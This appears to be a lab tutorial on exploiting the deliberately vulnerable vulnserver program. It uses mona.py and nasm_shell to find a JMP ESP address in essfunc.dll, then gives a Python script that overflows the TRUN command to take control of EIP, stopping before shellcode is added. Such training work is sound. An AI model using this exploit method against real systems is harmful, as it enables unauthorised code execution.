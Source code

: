 # Finding the Right Module

We are looking for a dll inside the program, that has no memory protections: no DEP, no ASLR, no safeSEH

Can use Mona Modules tool together with ImmunityDebugger

Download mona.py and place in:
```
C:\Program Files (x86)\Immunity Inc\Immunity Debugger\PyCommands
```

In Immunity Debugger where our program has paused, run at the bottom cmd line, `!mona modules`

We can check which protection settings are off and on

Check what is attached to vulnserver itself and has all False

![rm1](https://user-images.githubusercontent.com/87711310/209446750-d70550bd-b370-4add-8e77-0910aeaf9e9d.png)
 
**essfunc.dll** seems ideal as the protection settings for Rebase, SafeSEH, ASLR, NXCompat, OS Dll are all False and it is attached to the vulnserver process (`\vulnserver\essfunc.dll`)

Find the operation (OP) code equivalents of a jump to a specific address: i.e. trying to convert assembly language to shellcode

How to do this: go on Linux, and `locate nasm_shell`

Run
```
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
```
On `nasm>` type the assembly code `JMP ESP`. We get:
```
nasm > JMP ESP
00000000  FFE4              jmp esp
```
will use this as a pointer for our program to look at the pointer and jump to the shell code 

Hexcode equivalent of "JMP ESP" is "FFE4"

Go back to ImmunityDebugger and type:
```
!mona find -s "\xff\xe4" -m eesfunc.dll
```
(`.ff..e4`)
In the results, we see a couple of return addresses

![rm2](https://user-images.githubusercontent.com/87711310/209446752-81d868d8-fd17-4206-be25-35c1bb0ff3a5.png)

Note down some of these. For now, first result: `0x625011af`

We will use this in our shell code. This time, our Windows has x86 architecture so we need to use little-endian format as it stores the lower order byte to the lowest address and the high order byte at the higher address.
We will write the address as `\xaf\x11\x50\x62`

We want our EIP to be jump code that jumps to our malicious reverse shell code:
```
#!/usr/bin/python
import sys, socket

# The "vulnerable" return address we found was 625011af
shellcode = "A" * 2003 + "\xaf\x11\x50\x62"

while True:
	try:
		s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.connect(('10.0.2.15',9999))
		s.send(('TRUN /.:/' + shellcode ))
		s.close()
	except:
		print "Error connecting to server"
		sys.exit()
```

This should hit the same error as before but hit a Jump point 

Go back to ImmunityDebugger and try and catch the exception
Back to "C" windows of ID, click blue/black arrow pointing to the right three dots and enter our address `Enter expression to follow 625011af`

![rm3](https://user-images.githubusercontent.com/87711310/209446753-b862f2b9-bffa-4cdf-84ef-2ded06e84de4.png)

There, we see the FFE4 JMP ESP code we were looking for. Hit F2 to set breakpoint. Then, when we run the program, it will pause there instead of moving further. 
Can now run program and then run our 5.py
The program pauses at our breakpoint and we see `EIP 625011AF essfunc.625011AF`

We now control the EIP. Now need to write/generate some shellcode, point directly to that shellcode and get root

